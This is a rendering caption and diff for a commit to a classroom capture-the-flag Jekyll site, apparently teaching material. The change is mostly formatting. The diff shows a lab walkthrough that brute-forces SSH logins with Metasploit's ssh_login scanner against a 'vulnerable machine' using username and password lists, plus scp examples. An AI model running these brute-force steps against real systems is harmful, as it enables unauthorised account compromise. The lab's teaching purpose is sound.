

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/SSHerlock/SSHerlock.md, in a window 1280 px wide and 900 px high, scrolled down 3898 px, cut to the strip 0-861 px from the top of the window. Shown: the whole strip, without its empty margins (187-1271 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/classes/SSHerlock/SSHerlock.md
+++ b/classes/SSHerlock/SSHerlock.md
@@ -110,23 +110,23 @@ sudo passwd root
 #### **Kali - Attack Steps:**
 **Step 1:** Attempt to ssh the target machine to ensure that it has password authentication turned on (see setting up SSH server on target machine), after 3 failures the permission will be denied.
 **Step 2:** Ensure you are in root for your Kali box by using the following command:
-`sudo su`
+#### `sudo su`
 Step 3: To open the Metaspoitconsole run the following command:
-`msfconsole`
+#### `msfconsole`
 **Step 4:** Open the ssh login scanner
  - 4a: Use the following command to see all the possibilities of the Metasploit console dealing with SSH:
 `msf6 > search ssh`
  - 4b:  `msf6 > use auxiliary/scanner/ssh/ssh_login`
  - 4c:  `msf6 > show options`
-**Step 5:** Set the ssh_login tool to target the vulnerable machine
+**Step 5:** Set the ssh_login tool to target the vulnerable machine:
  - 5a `msf6 > set RHOSTS 192.168.XX.XX` (vulnerable machine address)
  - 5b`msf6 > set PASS_FILE /home/kali/Desktop/passwords.txt` (path of the passwords text file)
  - 5c `msf6 > set USER_FILE /home/kali/Desktop/usernames.txt` (path of the usernames text file)
  - 5d `msf6 > set VERBOSE true` (it will show the exactly matched combination of username and password)
 **Step 6** Check all of your options to ensure they look the way you want
-`msf6 > show options`
+#### `msf6 > show options`
 **Step 7:** Run and get some coffee (this takes some time, because it is an online brute force!)
-`msf6 > run`
+#### `msf6 > run`
 
 ## **Challenges in Cyber.org (Must Be Set Up Ahead of Time)**
 
@@ -189,7 +188,7 @@ scp    </PathToFile/LocalFile> <remote_username>@<IPorHost>:<PathToLocation>
 ```
 
 Example:
-`scp /home/kali/CourseFiles/Cybersecurity/steganography-lab/image1.jpg ubuntu@10.15.8.29:/home/ubuntu/Desktop/jboyce1/`
+#### `scp /home/kali/CourseFiles/Cybersecurity/steganography-lab/image1.jpg ubuntu@10.15.8.29:/home/ubuntu/Desktop/jboyce1/`
 
 ### **SCP File from Local to Remote**
 
````
Also changed, not shown: other parts of classes/SSHerlock/SSHerlock.md (+0 -1 lines).
